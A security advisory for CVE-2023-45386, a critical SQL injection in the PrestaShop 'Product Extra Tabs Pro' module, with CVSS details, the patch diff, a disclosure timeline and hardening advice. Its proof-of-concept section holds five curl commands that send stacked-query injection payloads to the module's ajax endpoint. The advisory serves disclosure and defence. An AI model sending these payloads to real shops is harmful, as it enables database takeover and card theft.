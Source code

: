 ```yaml
---
layout: post
title: "[CVE-2023-45386] Improper neutralization of SQL parameter in MyPresta.eu - Product Extra Tabs Pro for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,extratabspro"
severity: "critical (9.8)"
---
```


In the module "Product Extra Tabs Pro" (extratabspro) up to version 2.2.8 from MyPresta.eu for PrestaShop, a guest can perform SQL injection in affected versions.


## Summary

* **CVE ID**: [CVE-2023-45386](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45386)
* **Published at**: 2023-10-12
* **Platform**: PrestaShop
* **Product**: extratabspro
* **Impacted release**: <= 2.2.7 (2.2.8 fixed the vulnerability)
* **Product author**: MyPresta.eu
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

Methods `extratabspro::searchcategory()`, `extratabspro::searchproduct()` and `extratabspro::searchmanufacturer()` has sensitive SQL calls that can be executed with a trivial http call and exploited to forge a SQL injection.

The exploit can be used even if the module is not activated.

**WARNING** : This exploit is actively used to deploy a webskimmer to massively steal credit cards.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admins's ajax scripts
* Rewrite SMTP settings to hijack emails


## Proof of concept


```bash
curl -v -X POST -d 'search_feature=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'searchsupplier=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search_product=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search_manufacturer=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
```

## Patch from 2.2.7

```diff
--- 2.2.7/extratabspro/extratabspro.php
+++ 2.2.8/extratabspro/extratabspro.php
...
public function searchsupplier($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_supplier`,`name` FROM `' . _DB_PREFIX_ . 'supplier` WHERE `name` like "%' . $search . '%" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_supplier`,`name` FROM `' . _DB_PREFIX_ . 'supplier` WHERE `name` like "%' . pSQL($search) . '%" LIMIT 10');
    }

    public function getSuppliers($id)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_supplier` FROM `' . _DB_PREFIX_ . 'product_supplier` WHERE `id_product`= ' . $id . ' GROUP BY id_supplier');
+       return Db::getInstance()->ExecuteS('SELECT `id_supplier` FROM `' . _DB_PREFIX_ . 'product_supplier` WHERE `id_product`= ' . (int) $id . ' GROUP BY id_supplier');
    }

    public function searchfeature($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_feature_value`,`value` as name FROM `' . _DB_PREFIX_ . 'feature_value_lang` WHERE `value` like "%' . (string )$search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_feature_value`,`value` as name FROM `' . _DB_PREFIX_ . 'feature_value_lang` WHERE `value` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" LIMIT 10');
    }

    public function searchcategory($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_category`,`name` FROM `' . _DB_PREFIX_ . 'category_lang` WHERE `name` like "%' . $search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_category`,`name` FROM `' . _DB_PREFIX_ . 'category_lang` WHERE `name` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }

    public function searchproduct($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_product`,`name` FROM `' . _DB_PREFIX_ . 'product_lang` WHERE `name` like "%' . $search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_product`,`name` FROM `' . _DB_PREFIX_ . 'product_lang` WHERE `name` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }

    public function searchmanufacturer($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT m.`id_manufacturer`,m.`name` FROM `' . _DB_PREFIX_ . 'manufacturer` m LEFT JOIN `' . _DB_PREFIX_ . 'manufacturer_shop` ms ON ms.id_manufacturer = m.id_manufacturer WHERE `name` like "%' . $search . '%" AND ms.id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT m.`id_manufacturer`,m.`name` FROM `' . _DB_PREFIX_ . 'manufacturer` m LEFT JOIN `' . _DB_PREFIX_ . 'manufacturer_shop` ms ON ms.id_manufacturer = m.id_manufacturer WHERE `name` like "%' . pSQL($search) . '%" AND ms.id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }
```

## Other recommendations

* It’s recommended to upgrade to the latest version of the module **extratabspro**.
* Upgrade PrestaShop to the latest version to disable multiquery executions (separated by “;”) - be warned that this functionality **WILL NOT** protect your SHOP against injection SQL which uses the UNION clause to steal data.
* Change the default database prefix `ps_` with a new longer, arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-04-27 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-04-28 | Contact Author to confirm version scope |
| 2023-04-28 | Request a CVE ID |
| 2023-05-23 | Author confirm version scope |
| 2023-05-23 | Recontact author to get fixed version of the module to confirm fix |
| 2023-09-26 | Relaunch author to get fixed version of the module to confirm fix |
| 2023-09-26 | Author give the archive of the fix version of the module - fix confirmed |
| 2023-10-11 | Received CVE ID |
| 2023-10-12 | Publish this security advisory |

## Links

* [Author product page](https://mypresta.eu/modules/front-office-features/product-extra-tabs-pro.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-45386)
